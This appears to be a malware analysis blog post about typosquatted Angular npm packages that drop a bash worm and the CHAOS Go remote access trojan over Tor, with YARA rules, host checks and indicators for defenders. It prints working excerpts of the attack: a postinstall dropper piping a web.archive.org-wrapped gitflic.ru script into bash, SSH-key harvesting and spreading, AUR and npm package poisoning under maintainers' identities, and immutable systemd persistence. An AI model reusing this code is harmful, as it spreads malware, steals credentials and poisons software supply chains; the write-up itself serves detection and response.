


One typo in `npm install` is the entire initial-access budget this campaign needs. An npm account named `anfular` published 25-plus lookalikes of `@angular/core` and `@angular/cli`, every live one versioned `22.2.1` to match the real Angular release and carrying the real package descriptions. Install one by accident and a postinstall hook pulls a dropper through the Internet Archive, which pulls a bash worm, which installs a Go remote access trojan that hides its command-and-control (C2) server behind Tor, then spreads through your SSH keys, your AUR packages, and any npm project on your disk.

This is a writeup for people who hunt Linux endpoints, review package manifests, or write registry and proxy detections. You'll get the full chain, the actual code from the samples (excerpted, with cuts marked), the host artifacts worth alerting on, and YARA rules I validated against every artifact in the campaign. Nothing I describe was executed. All of it came out of static analysis in gVisor containers, network off, samples mounted read-only.

## The front door: typosquats in their own namespace

Typosquatting is registering a name one edit away from something popular and waiting for fat fingers. The `anfular` account covered the plausible misspellings: `@anuglar/core`, `@angulr/core`, `@anguar/core`, `@anfular/core`. Ten of them for core, ten for cli.

The mechanic that makes this work on npm is scopes. In `@angular/core`, `angular` is a namespace owned by the Angular team, and only they can publish into it. `@anuglar/core` lives in a different namespace that anyone can register, and to the registry it's an unrelated package that happens to look nearly identical on screen. The fakes even reuse the genuine descriptions, "Angular - the core framework" and "CLI tool for Angular", so a rushed manifest review passes.

Version choice is the detail I'd aim detection at. Every live fake was published at `22.2.1`, matching the genuine release at the time, so a lockfile diff (the file npm writes to pin the exact versions of everything you install) reads like a routine upgrade instead of a new package appearing. And the placeholders tell you this isn't a one-shot: five more namespaces, `@ahgular`, `@angilar`, `@angullar`, `@angulqr`, and `@anular`, hold core packages at `0.0.0-stage` with the description "Temporary package placeholder for staged publishing". I read those as reserved seats for the next wave, and that placeholder string is a decent registry-wide hunt query on its own.

## postinstall, then curl, then bash, with a stop at the Internet Archive

Each fake package's manifest declares a `postinstall` script, the lifecycle hook npm runs automatically once the tarball lands. This one curls a file the attacker calls `node.js` from a `gitflic.ru` repository, but wrapped in a `web.archive.org` URL (the Internet Archive's Wayback Machine), and pipes it straight into node. Here's the entire file it fetches, all 503 bytes of it:

```js
const { exec } = require("child_process");
const { platform } = require('node:process');

if (process.platform === "linux") {
        exec("curl -L https://web.archive.org/web/https://gitflic.ru/project/hellscripter/install-scripts/blob/raw?file=linux.sh | bash", ()=>{});
} /*else if (process.platform === "win32") {
        exec("powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NonInteractive -Command iex ((New-Object System.Net.WebClient).DownloadString('https://example.com/windows.ps1'))", ()=>{});
}*/
```

Two things worth noticing in there. The `platform` import is dead code, and the Windows branch is commented out with an `example.com` placeholder URL, so a Windows port is planned but not finished. The Linux branch is one `exec` of curl piped into bash, fetching `linux.sh` through the same archive trick.

The worm's own source confirms the pattern. These are its three payload URLs:

```bash
__linux_script_url='https://web.archive.org/web/https://gitflic.ru/project/hellscripter/install-scripts/blob/raw?file=linux.sh'
__linux_binary_url='https://web.archive.org/web/https://gitflic.ru/project/hellscripter/install-scripts/blob/raw?file=systemd-fontd'
__node_script_url='https://web.archive.org/web/https://gitflic.ru/project/hellscripter/install-scripts/blob/raw?file=node.js'
```

Same archived gitflic.ru path every time. Only the `file=` parameter changes. So the chain is package, node, bash, payload, and it looks like this end to end:



Two things to notice. First, every request the victim machine makes goes to `web.archive.org`. To a proxy with a domain allowlist, that's traffic to a research archive, not to a code host fronted by DDoS-Guard. Second, the archived copy is independent of the origin: when I re-fetched all three artifacts on 2026-10-07, they came back byte-identical to my local samples. Taking down the gitflic repository doesn't take down the delivery path. The earliest Wayback capture of the implant is 2026-10-03 04:59 UTC, which is the best first-seen date I have for this chain.

## The implant: a stripped Go RAT with a randomized config

The payload is a 7,581,959-byte stripped ELF (the standard Linux executable format) built with Go 1.27.1 for x86-64, compiled from `github.com/tiagorlampert/CHAOS`, an open-source RAT, with `gorilla/websocket` for the command channel and X11 libraries for screenshots. Stripped means no DWARF debug info, but Go can't strip everything: the runtime still needs `.gopclntab`, a function metadata table, and parsing it gave me 7,850 function names plus their call relationships.

The call chain I care about starts in `main.main`. Here's the disassembly, recovered via `.gopclntab` and decoded with capstone:

```asm
; main.main @ 0x6fb300
0x6fb30e: mov rax, qword ptr [rip + 0x43309b]   ; config slice .ptr
0x6fb315: mov rbx, qword ptr [rip + 0x43309c]   ; config slice .len
0x6fb31c: mov rcx, qword ptr [rip + 0x43309d]   ; config slice .cap
0x6fb323: call utils.ReadConfigFile
0x6fb34d: call ui.ShowMenu                      ; menu title "CHAOS (%s)"
0x6fb36e: call environment.Load                 ; ServerAddress, ServerPort, mode
```

Those three `mov` instructions load a byte slice out of `.data`, at 0xb2e3b0, pointing at a 356-byte blob at 0xaee506, and hand it to `utils.ReadConfigFile`, which base64-decodes it and unmarshals it as JSON. The recovered logic, paraphrased:

```go
cfg := utils.ReadConfigFile(configBlob) // .data slice @ 0xb2e3b0 -> 356 bytes @ 0xaee506
ui.ShowMenu("dev", ...)
env := environment.Load(cfg.ServerAddress, cfg.ServerPort, cfg.Mode)
app.New(env).Run()
```

The decoded config looks like this. I'm eliding the token; it's auth material with no grep value, and its expiry is 2027-10-03:

```json
{
  "UWi4wFtL9j": "80",
  "qG8ut5UyEA": "lpdt2hbzom3uxxq4dutlnypca3ym5c6h7g6fooi4qgz4m5qpcvrpczid.onion",
  "z3qujLWM7W": "<HS256 JWT, elided>"
}
```

Those JSON keys are meaningless on purpose, and they're randomized per build. I confirmed the mapping (port, address, token) from the struct-field order in the `environment.Load` disassembly, not from the strings. That's the defensive lesson in one detail: any signature written on the config, the key names, the onion address, the token, dies the moment the operator rebuilds.

The implant never talks to that onion directly. It dials through a Tor SOCKS5 proxy at `127.0.0.1:9050` that the worm installs alongside it, so the host's clearnet traffic never touches the C2. If you're writing network detection for this, destination IOCs are worthless. What's observable is a Tor process where nobody installed Tor, and the units that set the proxy up. For sensor writers, the protocol surface on the C2 side is plain HTTP and WebSocket:

```text
GET  http://<c2>/<endpoint>/    availability poll (handler.ServerIsAvailable)
POST http://<c2>/<endpoint>/    device specs: hostname, username, mac_address, local IP
WS   ws://<c2>/<endpoint>/     command channel, auto-reconnect
Authorization: Bearer <HS256 JWT, user "default">
```

Capabilities are the standard CHAOS set, confirmed from recovered function names: remote shell through `exec.Command("sh", "-c", cmd)`, file explorer with upload, download, and delete, X11 screenshots, device fingerprinting (hostname, username, MAC, and local IP, the last one discovered with a UDP dial to `8.8.8.8:80`), power control, and `xdg-open` for URLs. There's even a leftover menu stub titled `CHAOS (%s)`, and dormant Windows code paths like `Rundll32.exe user32.dll,LockWorkStation`.

## The worm: fake font services, then three roads out

The 7,170-byte bash script is where I spent most of my time. It installs its own toolchain first, as root (`pacman -Syu --needed tor openssh git npm base-devel` on Arch, apt equivalents on Debian), then makes itself at home. If it has root:

```bash
__deploy_fontrenderd() {
  systemctl enable --now tor.service
  curl -L "$__linux_binary_url" -o /usr/lib/systemd/systemd-fontrenderd
  chmod +x /usr/lib/systemd/systemd-fontrenderd
  chattr +i /usr/lib/systemd/systemd-fontrenderd
  # … writes the unit file, enables it, then:
  chattr +i /etc/systemd/system/systemd-fontrenderd.service
  chattr +i /etc/systemd/system/multi-user.target.wants/systemd-fontrenderd.service
}
```

The binary name, `systemd-fontrenderd`, is chosen to sit next to real systemd internals. The unit file it writes:

```ini
# /etc/systemd/system/systemd-fontrenderd.service
[Unit]
Description=Font Rendering Service
Wants=tor.service
After=tor.service

[Service]
Environment="HTTP_PROXY=socks5://127.0.0.1:9050"
ExecStart=/usr/lib/systemd/systemd-fontrenderd
KillMode=none

[Install]
WantedBy=multi-user.target
```

Read that as a detection spec: a service nobody ordered, wanting `tor.service`, injecting a SOCKS5 proxy into the environment, and setting `KillMode=none` so systemd leaves the process alone. The `chattr +i` calls mean even an admin who spots it can't delete it without clearing the immutable flag first. Without root, the same layout moves under `~/.config/systemd/`: the implant at `~/.config/systemd/systemd-fontcached`, a Tor expert bundle (i686, version 15.0.24, fetched through the Wayback Machine from `dist.torproject.org`, an i686 Tor next to an amd64 implant, so the author hardcoded one URL and moved on) under `~/.config/systemd/systemd-fontrenderd/`, and user units enabling both at login.

Then it looks for keys. This is the entire private-key discovery step, WSL paths included:

```bash
for __key in $(file {/home/*,/root,/mnt/c/Users/*}/.ssh/** | grep -F "OpenSSH private key" | cut -d":" -f1)
```

It merges every `known_hosts` on the box, then tries each key against each host, through every ssh config it can find, plus an explicit root attempt:

```bash
for __host in $(cut -d' ' -f1 "$__known_hosts" | sort -u); do
  for __config in /home/*/.ssh/config /etc/ssh/ssh_config /mnt/c/Users/*/.ssh/config /root/.ssh/config; do
    __infect_host -F "$__config" -i "$1" "ssh://$__host" &
  done
  __infect_host -l root -i "$1" "ssh://$__host" &
done

__infect_host() {
  # … connect, check uname …
  __ssh $@ "nohup curl -L '$__linux_script_url' | nohup bash >/dev/null 2>&1"
}
```

One developer machine with a shared key can seed an internal network. Then it attacks the two supply chains the victim participates in. On the AUR (Arch User Repository), for every package the victim maintains:

```bash
__do_aur_update() {
  # … clone ssh://aur@aur.archlinux.org/$1.git, source PKGBUILD …
  ((pkgrel++))
  printf '\n%s\n' "bash <(curl -L '$__linux_script_url')" >> "$install"
  sed -E -i "s/pkgrel = [0-9]+/pkgrel = $pkgrel/" .SRCINFO
  git config user.email "$(git log -1 --pretty=format:'%ae')"
  git config user.name  "$(git log -1 --pretty=format:'%an')"
  git commit -m "upgpkg: $__fullpkgver" -a --no-gpg-sign
  # … git push with random-backoff retries …
}
```

It bumps `pkgrel` (AUR's package revision counter), appends a `post_install` hook to the package's `.install` file, and commits with the `upgpkg:` prefix using the maintainer's own identity, pulled from the last commit's author fields. To anyone reading AUR history, it's routine maintenance.

On npm, for every `package.json` on disk outside `node_modules`:

```bash
__do_npm_update() {
  local __postinstall="$(npm pkg get scripts.postinstall)"
  [ -n "$__postinstall" ] && local __postinstall+=' & '
  local __postinstall+="curl -L $__node_script_url | node"
  npm pkg set scripts.postinstall="$__postinstall"
  npm --no-git-tag-version version patch
  for NPM_CONFIG_USERCONFIG in {/home/*,.,/mnt/c/Users/*,/root}/.npmrc "$PREFIX/etc/npmrc"; do
    export NPM_CONFIG_USERCONFIG; npm publish &
  done
  wait
  mv -f "$__package_json_orig" package.json   # put the original back
}
```

Read the last line twice. It chains its own curl after your existing postinstall with an `&`, bumps the patch version, publishes to every registry configuration it can find, then moves the saved original `package.json` back into place. Your working tree shows nothing. The registry serves the trojanized version, and the only trace is a patch bump nobody made.



Notice what the diagram is really saying: all three branches converge on the same host artifacts, the fontrenderd and fontcached units, the local Tor proxy, the immutable flags. You can't watch every road in. Every road out lands in the same place, so that's where the detection goes.

For the ATT&CK-minded, this maps to T1195.002 for the supply-chain branches, T1552.004 for the key harvest, T1021.004 for the SSH spread, T1543.002 for the systemd persistence, and T1090.003 for the Tor routing.

## Detection: build for the next build, not this one

The build-specific indicators, the onion address, the JWT, the config key names, the base64 blob, won't survive a rebuild. Don't write detections on them. The stable surface splits in two: the implant still has to carry CHAOS's package paths in `.gopclntab` and its protocol strings, and the worm still has to write its service names and call its own functions.

On a host, four commands cover most of it:

```bash
systemctl list-unit-files | grep -Ei 'font(render|cach)'
```

Finds the fake units whether they're enabled or not.

```bash
lsattr /etc/systemd/system/systemd-fontrenderd.service /usr/lib/systemd/systemd-fontrenderd 2>/dev/null
```

An `i` in the attribute column is the `chattr +i` persistence.

```bash
pgrep -a tor; ss -tp | grep -i tor
```

A Tor process on a box where nobody installed Tor. The user-mode variant runs with the expert bundle's `torrc-defaults`, so `pgrep -af 'tor.*torrc-defaults'` is the tighter match.

```bash
grep -rlE 'curl.*(gitflic|web\.archive)' --include=package.json --include='*.install' . 2>/dev/null
```

postinstall and post_install poisoning in anything you or your team maintain.

In code review, the signatures are a patch-version bump with no functional change and a postinstall that grew a `& curl … | node` tail; on AUR, an `upgpkg:` commit whose `.install` gained a `post_install` hook that wasn't there in the previous revision.

For scanning samples, these are the two rules I run, both validated against the campaign artifacts:

```yara
rule CHAOS_RAT_Linux_Client {
    meta:
        family = "CHAOS RAT (Go client)"
        note   = "matches unmodified builds regardless of baked C2 config"

    strings:
        $pkg1 = "github.com/tiagorlampert/CHAOS/client/app/services/" ascii
        $pkg2 = "github.com/tiagorlampert/CHAOS/client/app/environment" ascii
        $pkg3 = "github.com/tiagorlampert/CHAOS/client/app/handler" ascii
        $pkg4 = "github.com/tiagorlampert/CHAOS/client/app/infrastructure/websocket" ascii
        $menu = "CHAOS (%s)" ascii
        $url  = "http://%s:%s/" ascii
        $err1 = "[!] Error connecting with server: " ascii
        $err2 = "[!] Error reading from connection: " ascii
        $ok   = "[*] Successfully connected" ascii
        $gol  = "Go buildinf:" ascii
        $sh   = "xdg-open %s" ascii

    condition:
        uint32(0) == 0x464c457f and filesize > 1MB
        and $gol
        and 3 of ($pkg*)
        and 2 of ($menu, $url, $err1, $err2, $ok, $sh)
}
```

The condition does the work: `uint32(0) == 0x464c457f` is the ELF magic in the first four bytes, the size gate keeps the 7KB droppers from matching, and `3 of ($pkg*)` tolerates a rebuild that drops one package path. Requiring the Go buildinfo string plus CHAOS-specific package paths is what keeps this off ordinary Go binaries. Saved as `CHAOS_RAT_Linux_Client.yar`, run it against anything suspicious:

```bash
yara CHAOS_RAT_Linux_Client.yar suspect-file
```

The second rule matches the worm, and it's the one I'd point at npm tarballs and AUR checkouts:

```yara
rule CHAOS_Dropper_Linux_Worm {
    meta:
        family = "CHAOS RAT dropper - fontrenderd worm (bash)"

    strings:
        $svc1  = "systemd-fontrenderd" ascii
        $svc2  = "systemd-fontcached" ascii
        $desc1 = "Description=Font Rendering Service" ascii
        $desc2 = "Description=Font Caching Service" ascii
        $tor   = "socks5://127.0.0.1:9050" ascii
        $torpk = "tor-expert-bundle-linux-i686" ascii
        $fn1   = "__do_aur_update" ascii
        $fn2   = "__do_npm_update" ascii
        $fn3   = "__deploy_fontrenderd" ascii
        $fn4   = "__use_ssh_key" ascii
        $aur   = "aur@aur.archlinux.org" ascii
        $upg   = "upgpkg: " ascii
        $repo  = "gitflic.ru/project/hellscripter/install-scripts" ascii
        $wayb  = "https://web.archive.org/web/https://" ascii
        $chattr= "chattr +i" ascii

    condition:
        filesize < 200KB
        and 2 of ($svc1, $svc2, $desc1, $desc2)
        and 2 of ($fn1, $fn2, $fn3, $fn4)
        and 2 of ($repo, $aur, $torpk, $tor, $wayb, $upg, $chattr)
}
```

The three "2 of" clauses mean a partial rework of the script still matches, as long as the service names, the worm's own function names, and the infrastructure strings survive. Two more rules in the set cover the embedded base64 config layout and the 503-byte node dropper; the config one anchors its base64 regex on the `ServerPort`, `ServerAddress`, and `*environment.Configuration` type strings, which is what keeps it quiet on unrelated Go builds.

The response order if you find it: capture `~/.config/systemd/systemd-fontrenderd/` and both unit files as evidence first, then `chattr -i` and remove the binaries and units, then `systemctl daemon-reload` and `systemctl --user daemon-reload`. After that, rotate every SSH key that was on the host, because you assume all of them were read, and check every host in the merged `known_hosts` for the same artifacts. AUR maintainers should review everything pushed since early October. npm publishers should revoke tokens and diff the registry's copy of each package against the local one, because the worm restored the local copy on purpose.

## Indicators

These are from my run. The hashes and the onion address are specific to this build, so use them for triage and not for long-term detection.

```text
implant  4ab643f49ee2a86c36ba665d7a3e5b91997d1da2840d64a0483d2b477c7ca7e0
worm     b1a1429d4af8af4384d546b4544ddf5db4bcbb48bec0c58aadd1b5973f42617b
node.js  b4fdaf46a9817f828eb7bc29c9319953a9e06fba2bc2325c972bc25d4ed219d5
C2       lpdt2hbzom3uxxq4dutlnypca3ym5c6h7g6fooi4qgz4m5qpcvrpczid.onion:80 (Tor)
proxy    socks5://127.0.0.1:9050
units    systemd-fontrenderd, systemd-fontcached
```

### Package names

Fake `@angular/core`, version `22.2.1`, description "Angular - the core framework":

```text
@anuglar/core
@anngular/core
@angupar/core
@angulr/core
@angulaar/core
@anguar/core
@angjlar/core
@anfular/core
@abgular/core
@qngular/core
```

Fake `@angular/cli`, version `22.2.1`, description "CLI tool for Angular":

```text
@abgular/cli
@ahgular/cli
@angilar/cli
@angjlar/cli
@anguar/cli
@angulaar/cli
@angullar/cli
@angulqr/cli
@angulr/cli
@angupar/cli
```

Placeholder core packages, version `0.0.0-stage`, description "Temporary package placeholder for staged publishing":

```text
@ahgular/core
@angilar/core
@angullar/core
@angulqr/core
@anular/core
```

## The takeaway

The structural lesson for me is the Wayback hop, not the typosquat. Typosquat packages tend to get reported and pulled quickly; the delivery path is a URL pattern that outlives the origin. If your egress policy treats `web.archive.org` as trusted, one attacker URL walks a RAT straight through it. Blocking the domain outright breaks legitimate archive fetches, so the trade-off is real. Monitoring it costs far less than blocking it, and that's the side I'd pick.

And run the greps. If you maintain AUR packages or publish to npm, check your last `upgpkg:` commit and your last patch bump today. The npm branch of this worm restores your `package.json` after publishing, so a clean working tree proves nothing.
